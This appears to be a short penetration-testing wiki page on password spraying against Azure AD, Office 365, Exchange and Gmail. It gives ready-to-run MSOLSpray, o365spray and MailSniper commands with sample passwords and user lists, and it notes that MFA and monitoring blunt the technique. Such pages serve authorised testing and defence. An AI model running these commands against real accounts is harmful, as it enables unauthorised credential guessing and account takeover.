 # Az - Password Spraying

{{#include ../../../banners/hacktricks-training.md}}

## Password Spray

In **Azure** this can be done against **different API endpoints** like Azure AD Graph, Microsoft Graph, Office 365 Reporting webservice, etc.

However, note that this technique is **very noisy** and Blue Team can **easily catch it**. Moreover, **forced password complexity** and the use of **MFA** can make this technique kind of useless.

You can perform a password spray attack with [**MSOLSpray**](https://github.com/dafthack/MSOLSpray)

```bash
. .\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\validemails.txt -Password Welcome2022! -Verbose
```

Or with [**o365spray**](https://github.com/0xZDH/o365spray)

```bash
python3 o365spray.py --spray -U validemails.txt -p 'Welcome2022!' --count 1 --lockout 1 --domain victim.com
```

Or with [**MailSniper**](https://github.com/dafthack/MailSniper)

```bash
#OWA
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
#EWS
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
#Gmail
Invoke-PasswordSprayGmail -UserList .\userlist.txt -Password Fall2016 -Threads 15 -OutFile gmail-sprayed-creds.txt
```

{{#include ../../../banners/hacktricks-training.md}}



